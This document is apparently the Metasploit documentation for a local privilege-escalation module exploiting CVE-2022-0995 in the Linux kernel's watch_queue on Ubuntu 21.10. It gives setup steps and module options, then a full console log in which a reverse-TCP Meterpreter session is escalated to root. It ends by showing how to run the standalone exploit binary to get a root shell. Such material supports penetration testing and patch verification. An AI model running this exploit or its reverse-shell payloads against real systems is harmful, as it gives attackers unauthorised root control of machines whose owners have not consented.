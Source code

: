## Vulnerable Application

This module exploits a vulnerability in the Linux Kernel's watch_queue event
notification system. It relies on a heap out-of-bounds write in kernel memory.
The exploit may fail on the first attempt so multiple attempts may be needed.
Note that the exploit can potentially cause a denial of service if multiple
failed attempts occur, however this is unlikely.

### Install

The vulnerability exists in linux kernel versions up to 5.17 rc8; this module only contains offsets for Ubuntu 21.10
kernel 5.13.0-37. More offsets may be added later.

Install Ubuntu 21.10
`apt-get install linux-image-5.13.0-37-generic`
Hold shift when you reboot and select the proper kernel version

## Verification Steps

1. Make an Ubuntu target.
1. Create a Meterpreter or shell payload and upload it to the Ubuntu target.
1. Set up a handler for the payload.
1. Launch the payload as a regular user on the Ubuntu target.
1. Do: `use exploit/linux/local/cve_2022_0995_watch_queue`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a new shell as the `root` user.

## Options

### COMPILE

[Auto|True|False] This selects the binary to use. `True` will cause the module to upload the source
code and perform compilation on target, `False` will cause the module to upload a precompiled binary.
`Auto` will cause the module to try compiling the exploit on the target but will fall back to the
precompiled option if a compiler cannot be found.

### DEBUG_SOURCE
[True|False] This selects whether or not the module should use source code with debug prints when
uploading and compiling on disk. If set to `True` the module will use source code with prints
that assist with troubleshooting failed exploits. If set to `False` the module will use source code
without these debug statements/prints. Note if it is not possible to compile the code on the target,
the precompiled binary will be used which has no debug print statements.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios

### Ubuntu 21.10 x64 With Linux 5.13.0.37-Generic

```
msf payload(linux/x64/meterpreter/reverse_tcp) >
[*] Started reverse TCP handler on 10.5.135.101:4567
[*] Sending stage (3020772 bytes) to 10.5.134.157
[*] Meterpreter session 1 opened (10.5.135.101:4567 -> 10.5.134.157:34614 ) at 2022-04-12 21:04:39 -0500

msf payload(linux/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 1...
msf payload(linux/x64/meterpreter/reverse_tcp) > use exploit/linux/local/cve_2022_0995_watch_queue
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/cve_2022_0995_watch_queue) > show options

Module options (exploit/linux/local/cve_2022_0995_watch_queue):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMPILE       Auto             yes       Compile on target (Accepted: Auto, True, False)
   DEBUG_SOURCE  false            no        Use source code with debug prints to help troubleshoot
   SESSION                        yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.101     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Ubuntu Linux 5.13.0-37


msf exploit(linux/local/cve_2022_0995_watch_queue) > set session 1
session => 1
msf exploit(linux/local/cve_2022_0995_watch_queue) > set verbose true
verbose => true
msf exploit(linux/local/cve_2022_0995_watch_queue) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[+] The target appears to be vulnerable.
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[*] Creating directory /tmp/.nILfP259
[*] /tmp/.nILfP259 created
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.nILfP259/.7BZngDv' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.nILfP259/.gJKqSJssjC /tmp/.nILfP259/.7BZngDv
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 10.5.134.157
[+] Deleted /tmp/.nILfP259/.gJKqSJssjC
[+] Deleted /tmp/.nILfP259
[*] Meterpreter session 2 opened (10.5.135.101:4444 -> 10.5.134.157:50382 ) at 2022-04-12 21:05:25 -0500
[*]

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Notes

### Included Binaries
The binary used by this exploit `data/exploits/CVE-2022-0995/cve_2021_3493.x64.elf` can be used separately from
Metasploit. The binary takes a single argument which is the payload or executable you wish to launch as `root`.

The following snippet shows an example of how one might run this binary with the `/bin/bash` executable to get
a new Bash shell as the `root` user.

```
msfuser@msfuser-virtual-machine:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@msfuser-virtual-machine:~$ ./cve_2021_3493.x64.elf /bin/bash
root@msfuser-virtual-machine:~$
```
